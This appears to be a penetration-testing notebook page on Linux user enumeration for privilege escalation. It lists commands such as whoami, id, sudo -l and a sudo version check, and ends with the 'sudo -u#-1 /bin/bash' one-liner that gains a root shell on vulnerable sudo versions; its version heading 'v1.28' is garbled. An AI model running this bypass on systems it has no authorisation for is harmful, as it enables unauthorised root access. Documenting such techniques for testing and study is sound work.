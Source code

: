 ```yaml
---
id: User Enumeration
aliases: []
tags:
  - Linux/Privesc/User-Enumeration
links: "[[Privesc]]"
---
```


# User Enumeration

<!-- User & Group {{{-->
## User & Group

Enumerate current user and group

### User

#### whoami

The `whoami` command displays the currently logged in user on the system by
examining the `/etc/passwd` file.

- [Wikipedia - whoami](https://en.wikipedia.org/wiki/Whoami)
- [IBM - whoami command](https://www.ibm.com/docs/ssw_aix_72/w_commands/whoami.html)

Check the currently logged in user on the system

```sh
whoami
```

#### Home directory

Investigate the user's home directory

```sh
/home/{username}/
```

### Group

#### id

Display the system identifications of a specified user.

- [Cyberciti - Linux/Unix id Command Examples](https://www.cyberciti.biz/faq/unix-linux-id-command-examples-usage-syntax/)
- [IBM - id Command](https://www.ibm.com/docs/en/aix/7.3.0?topic=i-id-command)

Find a user’s UID (user ID) or GID (group ID) and other information

```sh
# Synopsis
id [Username] id [options]

# Current user
id

# Spicify a user
id -u {user}
```
<!-- }}} -->

<!-- Sudo {{{-->
## Sudo

### Sudo commands

Check which commands the current user may run

```sh
sudo -l
```

Run command as `user`

```sh
sudo -u user /bin/echo Hello World!
```

The found command(s) may be exploited with [GTFOBins](https://gtfobins.github.io/)

### Sudo version

Check sudo version for vulnerabilities

```sh
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```

### Sudo vulnerabilities

Search Sudo version for public exploits

#### Searchsploit

```sh
searchsploit sudo
```

#### Sudo < v1.28

Run sudo

```sh
sudo -u#-1 /bin/bash
```
<!-- }}} -->

